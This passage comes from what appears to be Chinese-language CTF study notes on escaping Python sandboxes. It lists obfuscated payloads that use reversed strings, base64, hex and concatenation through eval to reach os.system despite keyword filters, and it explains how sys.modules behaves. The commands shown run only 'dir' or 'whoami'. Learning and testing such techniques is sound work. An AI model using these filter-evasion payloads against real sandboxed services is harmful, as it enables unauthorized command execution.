    不过要使用上面的这两种方法，就必须知道库的路径。其实在大多数的环境下，库都是默认路径。如果 `sys `没被干掉的话，还可以确认一下

   ```python
   import sys
   print(sys.path)
   ```

### 花式处理字符串

倒置，base编码，hex，字符串拼接，rot13等等，再通过利用`eval`或者`exec`

- `__import__('so'[::-1]).system('dir')`
- `eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])`
- `eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Rpcicp').decode('utf-8'))`
- `eval(b'1'.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `eval(bytes.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `a='o';b='s';__import__(a+b).system('dir')`

### sys.modules

`sys.modules` 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 `os` 是默认被加载进来的，但是不能直接使用，原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。

如果将 os 从 sys.modules 中剔除，os 就彻底没法用了：

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230730195551282.png)

注意，这里不能用 `del sys.modules['os']`，因为，当 import 一个模块时：import A，检查 sys.modules 中是否已经有 A，如果有则不加载，如果没有则为 A 创建 module 对象，并加载 A。

所以删了 `sys.modules['os']` 只会让 Python 重新加载一次 os。

看到这你肯定发现了，对于上面的过滤方式，绕过的方式可以是这样：

